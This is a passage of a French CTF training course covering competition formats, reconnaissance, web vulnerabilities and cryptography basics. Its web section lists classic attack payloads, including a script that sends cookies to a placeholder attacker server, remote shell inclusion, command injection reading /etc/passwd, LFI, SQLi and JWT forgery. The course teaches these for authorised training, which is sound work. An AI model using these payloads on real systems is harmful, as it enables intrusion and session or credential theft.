



# Présentation

Bienvenue au niveau 7 de CyberAcademy : **CTF Training**. Ton parcours arrive à un moment charnière : tu as déjà vu comment fonctionnent les systèmes (niveau 0), le réseau (niveau 2), la programmation (niveau 3), les failles web (niveaux 4-5) et la méthodologie de pentest (niveau 6). Tout cela reste théorique tant que tu ne l'as pas **pratiqué en conditions réelles**.

Un **CTF** (Capture The Flag, « capture du drapeau ») est une compétition de cybersécurité où les participants résolvent des défis techniques pour récupérer une chaîne de caractères appelée **flag** (drapeau), le plus souvent au format `CTF{contenu}`. Le premier (ou le premier groupe) à soumettre le flag correct sur la plateforme gagne des points. Ce cours fait de toi un compétiteur.

**L'histoire de départ.** Tu es un ancien élève du programme CyberAcademy, fraîchement diplômé du niveau 6. Un recruteur d'une société de cybersécurité a vu ton CV et te propose un poste de **pentester junior** (testeur d'intrusion). L'entretien est dans trois semaines. On te prévient : « Ton score sur HackTheBox, TryHackMe ou Root-Me sera discuté en premier. » Tu décides donc de consacrer 16 heures à t'entraîner sérieusement, comme un athlète avant une compétition. Ce cours est ton programme d'entraînement.

## Pourquoi les CTF — le meilleur terrain d'entraînement

Un CTF est à la cybersécurité ce que la **course d'orientation** est à la randonnée : on te donne un objectif (trouver un point précis), une carte (les indices de l'énoncé), et tu dois mobiliser toutes tes compétences pour y arriver dans le temps imparti. Personne ne te tient par la main.

| Atout | Explication | POURQUOI c'est important |
| ----- | ----------- | ------------------------ |
| **Pratique sur du concret** | Chaque défi est un mini-problème réel : une application vulnérable, un binaire à analyser, une capture réseau à fouiller | Tu apprends en faisant, pas en lisant |
| **Progression mesurable** | Les points, les rangs et les flags validés sont des indicateurs objectifs de progrès | Tu sais exactement où tu en es |
| **Cohérence avec le monde réel** | Les défis sont inspirés de failles réelles (CVE, incidents, techniques de ransomware) | Ce que tu fais en CTF est ce que font les attaquants, dans un cadre légal |
| **Recrutement direct** | Les entreprises de cybersécurité scrutent les classements des plateformes et des compétitions | Un bon classement vaut des années d'expérience sur le CV |
| **Communauté** | Équipes, Discord, write-ups (solutions expliquées), entraide entre compétiteurs | Tu progresses en expliquant et en lisant les autres |
| **Motivation par le jeu** | Le côté compétitif et ludique maintient l'engagement sur la durée | Tu t'entraînes parce que tu en as envie |

## L'importance : couvrir toutes les catégories de compétences

Un bon CTF ne teste pas une seule compétence : il en teste **dix en parallèle**. Chaque défi est classé dans une catégorie, et c'est exactement la force de ce format. Un pentester qui ne sait qu'exploiter une faille SQLi (injection SQL, une technique qui permet de manipuler les requêtes vers la base de données) et jamais analyser un binaire est un pentester incomplet.

| Compétence | Catégorie CTF correspondante |
| ---------- | ---------------------------- |
| Analyse d'applications web | Web |
| Encodages, chiffrement, hachage | Cryptographie (Crypto) |
| Analyse de fichiers, de captures, de mémoire | Forensics |
| Découverte de données cachées | Stéganographie (Stego) |
| Renseignement en sources ouvertes | OSINT |
| Analyse de programmes binaires | Reverse Engineering (RE) |
| Exploitation mémoire et programmation | Pwn / Exploitation |
| Logique, programmation, culture | Misc (miscellaneous, « divers ») |

## Où c'est utilisé

### Plateformes d'entraînement

| Plateforme | Type | Points forts | Coût |
| ---------- | ---- | ------------ | ---- |
| **HackTheBox** (HTB) | Machines à compromettre + challenges | Réaliste, classements, Academy, saisons | Gratuit (limité) puis abonnement |
| **TryHackMe** (THM) | Salles guidées (« rooms ») | Pédagogique, très progressif, gamifié | Gratuit (limité) puis abonnement |
| **Root-Me** | Challenges par catégorie | En français, très riche, par compétence | Gratuit |
| **picoCTF** | Compétition éducative (Carnegie Mellon University) | Gratuit, conçu pour apprendre | Gratuit |
| **CTFd** | Moteur de plateforme open-source | Héberge les compétitions ; tu le retrouveras dans les jeux d'équipes | Open-source |
| **0xL4ugh** | Plateforme communautaire | Jeux réguliers, défis variés | Gratuit |

### Compétitions internationales

Les grandes compétitions annuelles (DEF CON CTF aux États-Unis, Google CTF, les championnats nationaux comme la CyberGuerre ou le FCSC en France, l'EuroSkills cyber) utilisent toutes le format CTF. Les **qualifiers** (qualifications) en ligne sont ouverts à tous : c'est la porte d'entrée vers la scène internationale. Le site **CTFtime.org** recense toutes les compétitions passées, actuelles et futures, avec leurs classements.

## Métiers concernés

| Métier | Rôle concret | Pourquoi les CTF aident |
| ------ | ------------ | ----------------------- |
| **Pentester** (testeur d'intrusion) | Trouver et démontrer les failles avant les attaquants | Les catégories Web, Pwn et Forensics sont son quotidien |
| **Exploit developer** | Écrire du code qui exploite une vulnérabilité | Les défis Pwn et RE sont exactement son travail |
| **Malware analyst** | Analyser des programmes malveillants | Les défis RE et Forensics lui apprennent l'analyse de binaires et de captures |
| **SOC analyst** (analyste en centre de supervision) | Détecter et répondre aux incidents | Les défis Forensics et pcap simulent l'analyse d'attaques réelles |
| **Incident responder** | Gérer les conséquences d'une intrusion | Analyser une image mémoire (RAM) avec Volatility est un réflexe CTF devenu réflexe professionnel |
| **Bug bounty hunter** | Chasser les failles rémunérées sur des plateformes autorisées | La recon et les techniques Web apprises en CTF sont directement transposables |

## Prérequis

Pour suivre ce cours sereinement, tu dois avoir validé :

- **Niveau 0 — Computer Fundamentals** : fichiers, processus, permissions.
- **Niveau 1 — Linux Fundamentals** : terminal, `grep`, `find`, `strings`, gestion des fichiers.
- **Niveau 2 — Networking** : TCP/IP, ports, HTTP, `nc`, `tcpdump`, `nmap`.
- **Niveau 3 — Python / Bash** : scripts, `requests`, parsing de texte, `curl`.
- **Niveau 4 — Web Security** : requêtes HTTP, cookies, sessions, fuzzing avec `gobuster`.
- **Niveau 5 — OWASP Top 10** : SQLi, XSS, injection de commandes, LFI, SSTI.
- **Niveau 6 — Pentesting Methodology** : méthodologie complète de test d'intrusion.

> ⏱️ **Temps estimé : 16 heures** — soit 4 séances de 4 heures.
> 📊 **Niveau : 7** — huitième maillon de la roadmap CyberAcademy (niveaux 0 → 11).

## Ce que tu vas construire

À la fin de ce cours, tu auras :

- une **méthode de résolution** reproductible pour n'importe quel challenge ;
- un **kit d'outils** complet et vérifié (strings, binwalk, exiftool, hashid, john, CyberChef, gdb…) ;
- un **carnet de notes** avec tes propres commandes et réflexes ;
- **3 mini challenges résolus** et **2 laboratoires complétés** (dont un parcours picoCTF) ;
- un badge 🚩 Flag Hunter et le niveau 8 (Bug Bounty) débloqué.

---

> ⚠️ **Légal** — Les CTF se jouent **uniquement sur des environnements autorisés** : plateformes dédiées (HackTheBox, TryHackMe, Root-Me, picoCTF, CTFd, 0xL4ugh), machines virtuelles locales ou serveurs dont tu as l'autorisation écrite. Ce cours ne t'autorise jamais à tester une machine, une application ou un réseau sans autorisation. Un CTF n'est pas un passe-droit : les techniques sont les mêmes, mais le cadre légal fait toute la différence.

---

## Objectifs pédagogiques

À la fin de ce cours, tu seras capable de :

1. **Aborder chacune des grandes catégories de CTF** : Web, Cryptographie, Forensics, Stéganographie, OSINT, Reverse Engineering, Pwn et Misc — comprendre ce que chaque catégorie attend de toi et savoir par où commencer.
2. **Appliquer une méthodologie de résolution** : lire l'énoncé, identifier la catégorie, choisir les outils, documenter tes essais, extraire et soumettre le flag au bon format.
3. **Utiliser les outils clés de façon fluide** : `strings`, `file`, `binwalk`, `exiftool`, `xxd`, `hashid`, `john`, `hashcat`, CyberChef, `tcpdump`/`tshark`, `gdb`, `objdump`, `gobuster`, `ffuf`, `hydra` et pwntools.
4. **Distinguer encodage, chiffrement et hachage** : reconnaître base64, hex, ROT13, XOR, identifier un type de hash avec `hashid` puis le casser avec `john` ou `hashcat`.
5. **Analyser un fichier suspect** : vérifier sa vraie nature avec `file`, extraire les chaînes lisibles avec `strings`, révéler les fichiers cachés avec `binwalk`, lire les métadonnées avec `exiftool` et traiter une capture réseau avec `tcpdump`/`tshark`.
6. **Débuter en reverse engineering et en exploitation** : lire un désassemblage avec `objdump`, déboguer avec `gdb`, reconnaître une comparaison de mot de passe dans un crackme (programme de type « devine le mot de passe »), et comprendre le principe d'un buffer overflow pédagogique avec pwntools.
7. **Créer tes propres challenges** : construire un petit CTF (flag caché dans une image + hash à casser) pour t'entraîner et entraîner les autres.

---

## Vue d'ensemble

Voici la feuille de route de ce cours. Chaque module s'appuie sur le précédent, exactement comme les niveaux de ton parcours.



### Tableau des catégories

| Catégorie | Abréviation | Compétence travaillée | Points typiques | Difficulté de départ |
| --------- | ----------- | --------------------- | --------------- | -------------------- |
| Web | — | Failles applicatives, HTTP, injections | 50 – 500 | Moyenne |
| Cryptographie | Crypto | Encodages, chiffrement, hachage | 50 – 500 | Faible (les bases) |
| Forensics | Foren. | Analyse de fichiers, captures, mémoire | 50 – 300 | Faible |
| Stéganographie | Stego | Données cachées dans des médias | 50 – 200 | Faible |
| OSINT | — | Recherche et corrélation d'infos publiques | 50 – 200 | Très faible |
| Reverse Engineering | RE | Analyse de binaires, crackmes | 100 – 500 | Élevée |
| Exploitation | Pwn | Vulnérabilités mémoire, shellcodes | 100 – 500 | Élevée |
| Misc | Misc | Programmation, logique, culture, QR codes | 25 – 100 | Variable |

---

## Théorie

> ⚠️ **Légal** — Toute la théorie de cette section est illustrée avec des exemples tirés de plateformes CTF autorisées ou de fichiers que tu crées toi-même. Aucune commande n'est à lancer sur une cible non autorisée.

---

### (a) Introduction aux CTF : types, formats, plateformes

#### Définition

Un **CTF** (Capture The Flag) est une compétition de cybersécurité. Les participants doivent résoudre des défis techniques pour trouver des **flags** : des chaînes de caractères secrètes, généralement au format `CTF{...}`, `flag{...}`, `picoCTF{...}` ou `HTB{...}`. Le flag est la « preuve » que tu as réussi le défi : tu le soumets sur la plateforme pour gagner les points.

**Analogie.** Imagine une chasse au trésor : chaque énigme résolue te donne un mot de passe (le flag). Tu remets ce mot de passe au maître du jeu pour valider ta progression. Un CTF en ligne est exactement cela, version cybersécurité.

#### Pourquoi

Le format CTF est devenu le standard mondial de l'entraînement en cybersécurité parce qu'il réunit trois qualités : **réalisme** (les défis reproduisent de vraies failles), **mesurabilité** (des points, des rangs) et **variété** (toutes les compétences sont couvertes). Pour les recruteurs, un bon score est une preuve objective de compétence bien plus fiable qu'un diplôme seul.

#### Types de CTF

| Type | Définition | Comment ça se passe |
| ---- | ---------- | ------------------- |
| **Jeopardy** | Des défis organisés en grille ; chaque case a une catégorie et un nombre de points | Tu choisis les défis que tu veux, dans l'ordre que tu veux ; c'est le format le plus courant |
| **Attack-Defense** | Deux équipes : chacune défend ses propres services (machines) et attaque ceux de l'équipe adverse | Les services sont de vraies applications vulnérables ; les flags se volent sur les machines adverses |
| **Mixte / Red vs Blue** | Une équipe attaque (rouge), une équipe défend (bleu) | Combinaison d'exploitation et de défense, souvent sur le même réseau |
| **Kill chain** | Une seule machine à compromettre pas à pas (user → root) | Format utilisé par HackTheBox et TryHackMe |

Le format **Jeopardy** est de loin le plus répandu pour débuter : pas de pression de compétition directe, tu progresses à ton rythme. C'est celui que nous privilégions dans ce cours.

#### Le format du flag

Le flag est **la seule chose qui compte** pour la plateforme. Il faut le soumettre **exactement** tel quel, à la casse près, sans espace ajouté ni ligne vide. Un flag mal recopié est un flag perdu :

```
CTF{Ex3mpl3_d3_Fl4g}
picoCTF{hidden_flag_1}
flag{...}
HTB{...}
```

**Mots-clés à chercher dans les résultats d'outils** : `CTF`, `flag`, `FLAG`, `flag{`, `CTF{`, `picoCTF`, `htb`. Les organisateurs cachent souvent le flag dans un endroit où il est « trouvable », pas « impossible » : commentaire HTML, chaîne de caractères, fin d'un fichier, réponse HTTP.

#### Les plateformes

| Plateforme | À quoi elle ressemble | Pour qui |
| ---------- | --------------------- | -------- |
| **HackTheBox** | Machines complètes à compromettre + challenges à points | Ceux qui veulent du réalisme |
| **TryHackMe** | Salles guidées pas à pas, très pédagogiques | Ceux qui débutent et aiment être accompagnés |
| **Root-Me** | Challenges classés par compétence (web, crypto, forensics…) | Ceux qui veulent travailler une compétence précise |
| **picoCTF** | Compétition éducative ouverte toute l'année | Ceux qui veulent apprendre gratuitement |
| **CTFd** | Moteur open-source de plateforme CTF | Ceux qui créent ou rejoignent des compétitions auto-hébergées |
| **0xL4ugh** | Plateforme communautaire avec jeux réguliers | Ceux qui veulent varier les formats |

#### Méthodologie d'approche d'une plateforme

1. **Crée ton compte** et familiarise-toi avec l'interface : où on soumet le flag, où on lit les scores, où sont les hints (indices, souvent payants).
2. **Commence par les défis les moins chers en points** de chaque catégorie : ils sont conçus pour être faciles et t'échauffent.
3. **Note tes résolutions** dans un carnet : un challenge résolu se réutilise 100 fois.
4. **Lis les write-ups** (solutions détaillées publiées après la compétition) des défis que tu n'as pas réussi : c'est là que se fait la progression.

#### Exemple réel

Sur **Root-Me**, la catégorie « App - Script » contient des défis qui consistent à lire la réponse d'un serveur HTTP pour y trouver le flag. Sur **picoCTF**, le défi « Flags » de la catégorie Misc t'apprend simplement à reconnaître un flag quand tu en vois un. Ces défis « à 50 points » existent pour que tu apprennes le mécanisme avant la difficulté.

#### Bonnes pratiques

- Toujours vérifier le **format de flag** attendu sur la plateforme avant de soumettre.
- Ne jamais modifier un flag « au jugé » (ajouter/retirer `{}`, changer la casse) : si le format échoue, relis la sortie de tes outils.
- Les flags sont souvent en **ASCII uniquement** : évite les espaces et les accents dans ce que tu cherches.

#### Résumé

Un CTF est une chasse au trésor technique : des défis, des points, des flags au format `CTF{...}`. Les formats principaux sont Jeopardy (grille de défis) et Attack-Defense (attaque/défense). Les plateformes HackTheBox, TryHackMe, Root-Me, picoCTF, CTFd et 0xL4ugh sont tes terrains d'entraînement légaux.

---

### (b) Reconnaissance

#### Définition

La **reconnaissance** (recon) est l'ensemble des techniques qui consistent à **collecter de l'information sur une cible avant d'interagir avec elle**. Dans un CTF, ça veut dire : lister les sous-domaines, découvrir les pages et fichiers cachés, identifier les technologies, et repérer les indices laissés par l'organisateur.

**Analogie.** Avant une opération délicate, un professionnel observe longtemps : il compte les caméras, repère les horaires, note les portes secondaires. En cybersécurité, la recon est cette observation méthodique — mais dans un cadre légal.

#### Pourquoi

En CTF comme en pentest, **la recon est la clé de la réussite**. Un défi web qui semble « sans faille » cache presque toujours son entrée : un fichier `robots.txt`, une page `/admin` non liée, un commentaire HTML, un sous-domaine oublié. Sans recon, tu attaques dans le vide. Avec recon, tu transformes un défi opaque en une série de petites étapes claires.

#### Outils

| Outil | Rôle | Commande d'exemple |
| ----- | ---- | ------------------ |
| `curl` | Récupérer des pages et en-têtes | `curl -s http://cible/` |
| `gobuster` | Énumérer les répertoires et fichiers | `gobuster dir -u http://cible -w /usr/share/wordlists/dirb/common.txt` |
| `ffuf` | Fuzzing (test de multiples valeurs) | `ffuf -u http://cible/FUZZ -w wordlist.txt` |
| `dig` / `nslookup` | Interroger le DNS (Domain Name System) | `dig example.com` |
| `subfinder` | Trouver des sous-domaines | `subfinder -d example.com` |
| `whois` | Informations sur un domaine | `whois example.com` |
| `nmap` | Scan de ports et de services | `nmap -sV 192.168.1.10` |
| `git` | Fouiller les dépôts publics | `git clone https://github.com/...` |
| `grep` | Fouiller le code source téléchargé | `grep -ri "flag\|secret\|password" ./` |

#### Méthodologie

1. **Énoncé** : relis l'énoncé. Le nom du défi, sa catégorie et son auteur contiennent souvent des indices.
2. **La page elle-même** : source HTML (`curl -s URL`), commentaires, `robots.txt`, `sitemap.xml`, en-têtes HTTP (`curl -sI URL`).
3. **Les répertoires** : `gobuster dir -u http://cible -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak`.
4. **Les sous-domaines** : `subfinder -d cible`, ou la recherche sur le service gratuit crt.sh (certificats SSL enregistrés publiquement).
5. **Les moteurs de recherche** : les **Google dorks** (opérateurs de recherche avancée) ciblent précisément les contenus exposés.
6. **GitHub** : les organisateurs laissent parfois des commits publics contenant des mots de passe ou des indices.

#### Google dorks (opérateurs de recherche)

| Opérateur | Effet | Exemple |
| --------- | ----- | ------- |
| `site:` | Restreint à un domaine | `site:example.com` |
| `inurl:` | Mot présent dans l'URL | `inurl:admin` |
| `intitle:` | Mot dans le titre de la page | `intitle:login` |
| `filetype:` ou `ext:` | Type de fichier | `filetype:bak`, `ext:sql` |
| `intext:` | Mot dans le contenu | `intext:"password"` |
| `"..."` | Expression exacte | `"FLAG{"` |

#### Exemple réel

Un défi Web sur une plateforme d'entraînement décrit : « Le développeur a laissé une sauvegarde. » La recon montre une page d'accueil banale. `curl -s http://cible/robots.txt` affiche `Disallow: /admin/.backup.zip`. En téléchargeant le fichier, tu trouves le code source avec le flag en clair. **Aucune exploitation n'a été nécessaire : la recon a tout résolu.**

#### Bonnes pratiques

- Toujours vérifier `robots.txt` et la source HTML **avant** de lancer des outils lourds.
- Lancer `gobuster` en arrière-plan pendant que tu analyses ce que tu as déjà trouvé.
- Noter **tout** : chaque URL, chaque page, chaque indice, même ceux qui semblent sans intérêt.

#### Résumé

La recon transforme l'inconnu en connu : pages cachées, sous-domaines, indices dans le code source, dorks et dépôts GitHub. C'est la première étape obligatoire de tout défi, et souvent celle qui résout 50 % des challenges faciles.

---

### (c) Web

#### Définition

La catégorie **Web** regroupe tous les défis où il faut exploiter une **application web** : une page d'accueil, un formulaire, une API, un site avec un login. Le flag est en général caché dans une donnée que l'application ne devrait pas exposer : une base de données, un fichier du serveur, un cookie.

**Analogie.** L'application web est une maison avec un comptoir d'accueil. Ton travail : utiliser les portes, les fenêtres et les interstices laissés par les constructeurs (les développeurs) pour entrer dans des pièces interdites et y lire le secret.

#### Pourquoi

Les applications web sont **la surface d'attaque la plus exposée du monde numérique** : la plupart des entreprises ont un site, un portail, une API. Les failles web (injection SQL, XSS, LFI, etc.) sont les plus rentables pour un attaquant, donc les plus testées en CTF. En maîtrisant cette catégorie, tu maîtrises directement une grande partie du métier de pentester.

#### Rappels concis des failles des niveaux 4-5

Tu as déjà étudié ces failles en détail aux niveaux 4 et 5. Voici le rappel condensé **orienté CTF**, avec le réflexe à avoir pour chacune.

| Faille | Principe | Réflexe CTF |
| ------ | -------- | ----------- |
| **SQLi** (SQL injection) | Injecter du SQL dans une requête pour la détourner | Tester `'`, `"`, `' OR 1=1 -- -`, `1' UNION SELECT ...` ; si doute, `sqlmap -u "URL?param=valeur" --dbs` |
| **XSS** (cross-site scripting) | Injecter du JavaScript exécuté par le navigateur d'une victime | Chercher où l'input est réfléchi ; le flag peut être dans le cookie d'un visiteur |
| **SSTI** (server-side template injection) | Injecter du code dans un moteur de templates | Tester `{{7*7}}` ; si la page affiche 49, c'est injectable |
| **LFI** (local file inclusion) | Lire un fichier local du serveur | `?page=../../../../etc/passwd`, wrapper `php://filter/convert.base64-encode/resource=flag.php` |
| **RFI** (remote file inclusion) | Inclure un fichier distant | `?page=http://ton-serveur/shell.txt` |
| **Command injection** | Injecter une commande système | `; ls`, `| cat /etc/passwd`, `$(id)` |
| **Cookies** | Manipuler les données de session | Décoder le cookie (`base64 -d`), modifier une valeur (`admin=0` → `admin=1`) |
| **JWT** (JSON Web Token) | Manipuler un jeton d'authentification | Décoder sur jwt.io, changer l'algorithme (`HS256` → `none`), bruteforcer la clé avec `hashcat -m 16500` |

#### Focus technique orienté CTF

**1. SQLi — l'art du réflexe.**

```sql
' OR 1=1 -- -
' OR '1'='1
' UNION SELECT username,password FROM users --
```

En CTF, la faille SQLi sert souvent à **lire une table** nommée `flag`, `secret` ou `users`. Réflexe : injecter `' OR 1=1 -- -` pour tester, puis passer à `UNION SELECT` pour extraire. Si l'application a un formulaire de login, ce type d'injection contourne l'authentification sans connaître le mot de passe.

**2. XSS — le flag dans le cookie.**

Le flag n'est pas forcément sur la page : il peut être dans le **cookie de session** d'un autre utilisateur. Le scénario classique est un « bot » (visiteur automatisé) qui se connecte avec une session contenant le flag ; tu injectes du JavaScript qui envoie le cookie à ton serveur :

```html
<script>document.location="http://ton-serveur/collecter?c="+document.cookie</script>
```

Tu écoutes ensuite sur ton serveur avec `nc -lvnp 8080` pour recevoir le flag.

**3. SSTI — quand le moteur exécute ton code.**

Le SSTI (injection de templates côté serveur) survient quand l'application construit une page en concaténant ton input dans un template sans l'échapper. En Jinja2 (Python), `{{7*7}}` affiche 49. Ensuite, tu peux tenter d'exécuter des commandes :

```python
{{ config }}
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

En CTF, la preuve simple `{{7*7}}` suffit souvent pour marquer des points, ou pour lire un fichier avec des payloads plus avancés.

**4. LFI — lire le serveur.**

Le flag d'un défi LFI est souvent un fichier PHP que tu ne peux pas lire directement (il est exécuté). Le wrapper `php://filter` te permet de lire le **code source** du fichier en base64 :

```
?page=php://filter/convert.base64-encode/resource=flag.php
```

Tu obtiens le contenu encodé en base64, tu le décodes (`echo "..." | base64 -d`), et tu lis le flag dans le code.

**5. Command injection — parler au système.**

L'application exécute une commande système avec ton input dedans. Test :

```bash
; ls
; id
; cat /etc/passwd
```

Si `ls` fonctionne, tu as une porte vers le système ; `cat flag.txt` ou `find / -name "*flag*" 2>/dev/null` te mènera au flag.

**6. JWT — signer son propre jeton.**

Un **JWT** (JSON Web Token) a trois parties séparées par des points : en-tête, payload, signature, le tout en base64url. Sur **jwt.io**, tu peux décoder les deux premières parties. Deux attaques classiques :

- **Changer l'algorithme** : passer de `HS256` (signature symétrique avec clé secrète) à `none` (pas de signature) ; certains serveurs acceptent un jeton sans signature.
- **Bruteforcer la clé** : si le serveur utilise une clé faible pour HS256, `hashcat` la trouve : `hashcat -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt`.

#### Méthodologie

1. **Lire l'énoncé** : « formulaire de login », « page d'accueil », « API » ? Le contexte donne la faille probable.
2. **Recon** : source HTML, robots.txt, gobuster, commentaires.
3. **Identifier le point d'entrée** : où ton input est-il utilisé ? (URL, formulaire, cookie, en-tête).
4. **Tester la faille** avec la payload de preuve la plus simple.
5. **Extraire le flag** et le soumettre au format attendu.

#### Exemple réel

Sur picoCTF, le défi « Local Authority » présente un formulaire de login. La recon dans le code source révèle un fichier JavaScript qui vérifie un mot de passe en clair : `if (password == "strongPassword147")`. En le saisissant, le flag apparaît. **Le défi n'était pas de casser un chiffrement, mais de lire le code source.**

#### Bonnes pratiques

- Tester les failles par ordre croissant de complexité : d'abord le code source, puis l'input le plus évident, puis les injections.
- Utiliser `curl` avec des guillemets autour des payloads contenant des espaces ou des caractères spéciaux.
- Télécharger le code source quand il est fourni : la faille y est souvent écrite noir sur blanc.

#### Résumé

La catégorie Web exploite les failles applicatives que tu as étudiées aux niveaux 4-5 : SQLi, XSS, SSTI, LFI/RFI, injection de commandes, cookies et JWT. Le flag est caché dans des données exposées à tort. Réflexe : lire le code source, tester l'input, utiliser la payload la plus simple.

---

### (d) Cryptographie

#### Définition

La catégorie **Crypto** regroupe tout ce qui touche aux données chiffrées ou encodées : il faut **décoder, déchiffrer ou casser** quelque chose pour récupérer le flag. La difficulté principale des débutants est de distinguer trois concepts très différents : **l'encodage**, le **chiffrement** et le **hachage**.

**Analogie des trois boîtes.** Imagine trois boîtes :
- **Encodage** : la boîte est transparente, simplement réorganisée (un code de tri). Tout le monde peut l'ouvrir, pas de secret.
- **Chiffrement** : la boîte a un cadenas ; il faut une clé pour l'ouvrir.
- **Hachage** : la boîte contient une « empreinte » du contenu ; on ne peut pas retrouver le contenu depuis l'empreinte, mais on peut vérifier qu'un contenu correspond.

#### Pourquoi

Comprendre cette distinction, c'est savoir **par où commencer** : un message encodé se décode en secondes avec un outil, un message chiffré demande une clé ou une attaque, un hash se casse par dictionnaire. Le débutant qui confond encodage et chiffrement cherche « la clé » pendant des heures alors que le message était simplement en base64.

#### Encodages et chiffrements simples (pédagogiques)

| Nom | Type | Principe | Reconnaître | Outil |
| --- | ---- | -------- | ----------- | ----- |
| **base64** | Encodage | Alphabet `A-Za-z0-9+/`, padding `=` | Fin en `=` ou `==`, longueur multiple de 4, caractères alphanumériques | `base64 -d`, CyberChef |
| **hex** | Encodage | Chaque octet en deux caractères `0-9a-f` | Uniquement 0-9a-f, nombre pair de caractères | `xxd -r -p`, CyberChef |
| **ROT13** | Encodage (chiffrement de César de clé 13) | Chaque lettre décalée de 13 positions | Lettres uniquement, ressemble à du texte « cassé » | `tr 'A-Za-z' 'N-ZA-Mn-za-m'` |
| **César** | Chiffrement historique | Décalage de k positions (k varie) | Lettres uniquement, essai des 25 décalages | `tr`, CyberChef |
| **XOR** | Chiffrement | `octet ^ clé`, réversible : `(a^b)^b = a` | Octets binaires, texte qui ne ressemble à rien | Python, CyberChef |
| **Vigenère** | Chiffrement historique | César avec clé qui change à chaque lettre | Lettres uniquement mais ne répond pas à ROT13 | CyberChef |

#### Encodage vs chiffrement — le schéma mental

```
                  ENCODAGE                          CHIFFREMENT
          ┌─────────────────────────┐        ┌─────────────────────┐
          │ Représentation          │        │ Confidentialité     │
          │ Aucune clé secrète      │        │ Une clé secrète     │
          │ Réversible sans secret  │        │ Réversible AVEC clé │
          │ base64, hex, ROT13      │        │ AES, RSA, XOR+clé   │
          │ "FLAG" → "RkxBRw=="     │        │ "FLAG" → octets binaires │
          └─────────────────────────┘        └─────────────────────┘
```

#### Hachage

Un **hash** (hachage) est une fonction qui transforme une donnée en une **empreinte de taille fixe**, non réversible. `md5`, `sha1`, `sha256` sont des algorithmes de hachage. On ne « déchiffre » pas un hash : on teste des candidats et on compare leurs empreintes.

**Analogie.** Le hash est comme l'empreinte digitale d'une personne : elle identifie la personne, mais tu ne peux pas reconstruire la personne à partir de l'empreinte. Tu peux seulement vérifier qu'une personne donnée a cette empreinte.

En CTF, on « casse » un hash avec deux méthodes :
- **Attaque par dictionnaire** : on essaie chaque mot d'une liste (wordlist) en le hachant et en comparant. `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`.
- **Attaque par force brute** : on essaie toutes les combinaisons possibles. `hashcat -m 0 -a 3 hash.txt '?a?a?a?a?a?a'`.

#### Exemple réel

`bdae550cf03fede469b879276d9e6679` est le MD5 (Message Digest 5, un hash de 128 bits) du mot « cyberacademy ». Tu ne peux pas « décoder » ce hash. En revanche, `hashid` le reconnaît comme MD5, puis `john` essaie les mots de `rockyou.txt` et trouve « cyberacademy » en quelques secondes.

#### RSA (Rivest-Shamir-Adleman) — la vraie crypto moderne

**RSA** est un algorithme de chiffrement **asymétrique** : une clé publique chiffre, une clé privée déchiffre. Les mathématiques reposent sur le fait que factoriser un très grand nombre est difficile. En CTF, RSA se présente souvent ainsi :

1. Un fichier `public.pem` (clé publique) ou des valeurs `n` et `e`.
2. L'objectif : déchiffrer `c` (le message chiffré).

**Les défis RSA « faciles » exploitent une erreur de conception :**

| Attaque | Erreur du concepteur |
| ------- | -------------------- |
| **`n` trop petit** | `n` factorisable avec un outil en ligne ou Python ; on retrouve `p` et `q` |
| **`e` très grand ou petit** | attaque par exposant spécial |
| **Même `n` pour deux messages** | deux messages chiffrés avec la même clé publique |

Lire une clé publique :

```bash
openssl rsa -pubin -in public.pem -text -noout
```

La sortie affiche les deux grands nombres `modulus` (n) et `publicExponent` (e). Si `n` est petit (quelques centaines de chiffres), la factorisation devient possible et le challenge se résout avec Python ou l'outil dédié **RsaCtfTool**.

#### Outils clés de la catégorie

| Outil | Usage |
| ----- | ----- |
| **CyberChef** (web, gchq.github.io/CyberChef) | Boîte à outils de décodage : opérations From Base64, From Hex, ROT13, XOR, et l'opération **Magic** qui détecte automatiquement les encodages |
| `hashid` | Identifier le type d'un hash |
| `john` / `hashcat` | Casser les hashes par dictionnaire ou force brute |
| `openssl` | Chiffrement, hachage, manipulation de clés |
| `xxd`, `tr`, `base64` | Décodage hex/ROT13/base64 en ligne de commande |
| Python | Scripts de décodage et de factorisation |

#### Méthodologie

1. **Observer la donnée** : quelle est sa forme ? (lettres, hex, base64, octets binaires).
2. **Identifier** : essayer les décodages simples dans l'ordre (base64, hex, ROT13). CyberChef **Magic** automatise cette étape.
3. **Si c'est un hash** : `hashid` pour connaître le type, puis `john`/`hashcat`.
4. **Si c'est un chiffrement avec clé** : chercher la clé dans l'énoncé, le nom du fichier ou les indices.
5. **Soumettre le flag** au format exact.

#### Bonnes pratiques

- Tester l'encodage **avant** le chiffrement : base64, hex, ROT13 couvrent 70 % des défis faciles.
